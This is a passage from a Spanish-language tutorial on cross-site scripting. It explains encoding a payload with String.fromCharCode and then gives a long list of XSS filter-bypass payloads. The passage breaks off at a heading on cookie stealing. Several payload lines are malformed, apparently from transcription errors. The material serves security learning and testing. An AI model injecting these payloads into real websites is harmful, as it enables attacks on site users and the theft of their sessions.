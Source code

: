 Nosotros vamos a usar una función que se llama "**String.fromCharCode**". El nombre de la misma más o menos lo explica todo. Cifra nuestro texto, en **ASCII**. Un ejemplo de este cifrado, sería así:

```
String.fromCharCode(88,83,83)
```

&#x20;Puede ser un poco confuso, pero muy sencillo. Esto es lo que nuestra consulta completa se verá así:

```
<script>alert(String.fromCharCode(88,83,83))</script>
```

&#x20;Así que vamos a poner de nuevo en la barra de búsqueda, y ¡Funcionó! Tenemos un cuadro de alerta diciendo "XSS"!&#x20;

Otras formas de Bypasear los filtros son las transformaciones, como estas:

```
 "><script>alert("XSS")</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
'><script>alert("XSS")</script>
'><script>alert(String.fromCharCode(88,83,83))</script>
<ScRIPt>aLeRT("XSS")</ScRIPt>
<ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
"><ScRIPt>aLeRT("XSS")</ScRIPt>
"><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
'><ScRIPt>aLeRT("XSS")</ScRIPt>
'><ScRIPt<aLeRT(String.fromCharCode(88,83,83))</ScRIPt>
</script><script>alert("XSS")</script>
</script><script>alert(String.fromCharCode(88,83,83))</script>
"/><script>alert("XSS")</script>
"/><script>alert(String.fromCharCode(88,83,83))</script>
'/><script>alert("XSS")</script>
'/><script>alert(String.fromCharCode(88,83,83))</script>
</SCRIPT>"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>"><SCRIPT>alert(String.fromCharCode(88,83,83))
</SCRIPT>">"><SCRIPT>alert("XSS")</SCRIPT>
</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
";alert("XSS");"
";alert(String.fromCharCode(88,83,83));"
';alert("XSS");'
';alert(String.fromCharCode(88,83,83));'
";alert("XSS")
";alert(String.fromCharCode(88,83,83))
';alert("XSS")
';alert(String.fromCharCode(88,83,83))
```

## **XSS: MÉTODOS AVANZADOS**

### **Cookie Stealing/Logging**
